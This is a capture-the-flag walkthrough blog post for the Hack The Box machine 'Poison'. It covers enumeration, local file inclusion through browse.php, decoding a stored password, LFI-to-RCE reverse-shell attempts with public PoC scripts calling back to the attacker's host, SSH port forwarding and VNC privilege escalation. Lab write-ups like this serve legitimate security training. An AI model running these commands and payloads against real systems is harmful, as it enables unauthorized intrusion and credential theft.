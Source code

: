```yaml
---
layout: post
title: "poison"
date: 2025-08-31 
categories: OSCP Playlist
---
```

# poison

First let’s enumerate the open ports and services:

```bash
sudo nmap -sC -sV 10.10.10.84 -oN nmap/poison

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

Let’s visit the web page.

![image.png]({{ site.baseurl }}/assets/poison/image.png)

It seems we can input file name and the server will retrieve back the file from the backend. Let’s see if we can retrieve arbitrary files:

![image.png]({{ site.baseurl }}/assets/poison/image%201.png)

![image.png]({{ site.baseurl }}/assets/poison/image%202.png)

It seems we can.

From info.php, we get OS version

```bash
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017 root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC amd64
```

Also, one of the options of php scripts are llistfiles.php, let’s see what the file contains:

```bash
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt ) 
```

Seems like there is a pwdbackup.txt. Input it:

```bash
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo=
```

It’s encoded 13 times. Looks like a base64 encoding. We go on cyberchef base64 decode the string 13 times, we get this password:

```bash
Charix!2#4%6&8(0
```

From before outputting the /etc/passwd file, we see there is a user charix, so this password is probably related to that user.

There is another method of getting a shell on the machine. 

From phpinfo.php, we see that file uploads are on:

![image.png]({{ site.baseurl }}/assets/poison/image%203.png)

Searching LFI phpinfo, we come across “The Hacker Recipes”: https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/phpinfo
When `file_uploads=on` is set in the PHP configuration file, it is possible to upload a file by POSTing it on any PHP file ([RFC1867](https://www.ietf.org/rfc/rfc1867.txt)). This file is put to a temporary location on the server and deleted after the HTTP request is fully processed.
The aim of the attack is to POST a PHP reverse shell on the server and delay the processing of the request by adding very long headers to it. This gives enough time to find out the temporary location of the reverse shell using the output of the `phpinfo()` function and including it via the LFI before it gets removed.

The poc script linked from the blog is here:

[https://github.com/roughiz/lfito_rce](https://github.com/roughiz/lfito_rce)

Let’s download that and try it out:

```bash
python lfito_rce.py -l "http://host/browse.php?file=" --lhost 127.0.0.1 --lport 9001  -t 12  -i "http://host:8080/phpinfo.php"

python lfito_rce.py -l "http://10.10.10.84/browse.php?file=" --lhost 10.10.16.5 --lport 9001  -t 12  -i "http://10.10.10.84/phpinfo.php"

python lfito_rce.py -a 2 -l "http://10.10.10.84/browse.php?file=" --lhost 10.10.16.5 --lport 9001
```

Did not work. Let’s try another script from paylodsallthethings:https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Files/phpinfolfi.py

Swap the payload inside to php reverse shell from pentest monkey, the payload have to be between the two \r 

Swap the LFIREQ to:

```bash
"""GET /browse.php?file=%s HTTP/1.1\r
```

Now execute it:

```bash
python phpinfolfi.py 10.10.10.84 80 100
```

Does not work… 

Another method to get RCE is through log poisoning. Let’s first search up where the log is on Google: apache log freebsd; we get */var/log/httpd-access.log*

```bash
http://10.10.10.84/browse.php?file=/var/log/httpd-access.log
```

We get an error parsing and the file is too big to use php filter to base64 encode. Let’s move on…

Let’s ssh to the target:

```bash
ssh charix@10.10.10.84 #Charix!2#4%6&8(0
```

We see a secret.zip on the box. However, unzipping does not seem to be working, as the file requires a password, but the password prompt is not popping up. 7z is also not on the box. Let’s transfer the file back to our host and unzip it:

```bash
scp charix@10.10.10.84:secret.zip .
```

Let’s use the same password for charix for secret.zip

Once extracted, there is only one file, named secret:

```bash
xxd secret

00000000: bda8 5b7c d596 7a21                      ..[|..z!

```

Not much. Let’s go back on the target.

No sudo on box, not in a privileged group. No ifconfig command. No ss. Let’s try netstat:

```bash
netstat -an | grep LIST

Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.22         10.10.16.5.46564       ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*                    
udp6       0      0 *.514                  *.*                    

```

Let’s reconnect with ssh local port forwarding 5801 and 5901 to our host:

```bash
ssh charix@10.10.10.84 -L 5801:localhost:5801 -L 5901:localhost:5901
```

port 5801:

![image.png]({{ site.baseurl }}/assets/poison/image%204.png)

port 5901:

![image.png]({{ site.baseurl }}/assets/poison/image%205.png)

Searching this up, we find out this is to do with VNC (VNC (Virtual Network Computing) is a remote desktop sharing system that allows you to remotely control another computer over a network, using your keyboard and mouse as if you were physically there).

Let’s use vncviewer:

```bash
vncviewer -passwd secret localhost:5901
```

Now we have root.